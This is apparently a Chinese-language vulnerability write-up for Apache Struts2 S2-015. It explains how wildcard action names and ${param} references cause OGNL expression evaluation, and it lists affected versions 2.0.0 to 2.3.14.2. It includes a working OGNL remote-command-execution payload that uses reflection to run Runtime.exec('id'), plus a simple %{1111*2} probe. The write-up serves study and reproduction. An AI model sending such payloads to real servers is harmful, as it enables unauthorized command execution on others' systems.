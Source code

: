 
## 漏洞详情

http://struts.apache.org/docs/s2-015.html


## 原理

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

	<package name="S2-015" extends="struts-default">
	    <action name="*" class="com.demo.action.PageAction">
	        <result>/{1}.jsp</result>
	    </action>
	</package>

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 ```/ " \``` 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 #_memberAccess['allowStaticMethodAccess']=true 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

可以构造 Payload 如下：

	${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}

![](1.jpg)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

	<action name="param" class="com.demo.action.ParamAction">
	    <result name="success" type="httpheader">
	        <param name="error">305</param>
	        <param name="headers.fxxk">${message}</param>
	    </result>
	</action>

这里配置了 <param name="errorMessage">${message}</param>，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

## 影响版本

影响版本: 2.0.0 - 2.3.14.2
